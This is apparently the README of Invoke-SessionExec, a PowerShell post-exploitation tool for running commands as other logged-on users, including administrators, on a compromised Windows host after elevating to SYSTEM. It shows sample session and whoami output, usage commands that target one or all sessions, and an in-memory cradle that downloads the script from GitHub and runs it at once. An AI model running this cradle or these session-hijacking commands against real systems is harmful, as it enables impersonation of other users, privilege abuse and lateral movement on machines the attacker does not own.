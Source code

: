 # Invoke-SessionExec

Invoke-SessionExec is a PowerShell port of Leo4j's SessionExec. https://github.com/Leo4j/SessionExec

Invoke-SessionExec allows you to execute commands in the context of others users from their logon sessions.

For example running as the user "truth" on a compromised host we can see logon sessions for the users administrator and arbiter.

```
C:\Users\truth>quser
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>truth                 console             1  Active      none   23/07/2024 19:43
 administrator                             2  Disc        20:53  23/07/2024 18:02
 arbiter                                   3  Disc        20:52  23/07/2024 18:03
```

After elevating to SYSTEM and executing Invoke-SessionExec with  ```Invoke-SessionExec -SessionID All -Command "whoami"```  we get the following command output from each users with a logon session on the system:

```
[+] Invoke Command as truth under Session ID:1
security\truth

[+] Invoke Command as administrator under Session ID:2
security\administrator

[+] Invoke Command as arbiter under Session ID:3
security\arbiter
```

# Load into memory

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/The-Viper-One/Invoke-SessionExec/main/Invoke-SessionExec.ps1')
```

# Usage
```powershell
# Execute as user in Session 1
Invoke-SessionExec -SessionID 1 -Command "whomai /all"

# Execute as all users with logon sessions
Invoke-SessionExec -SessionID All -Command "whoami /all"
```

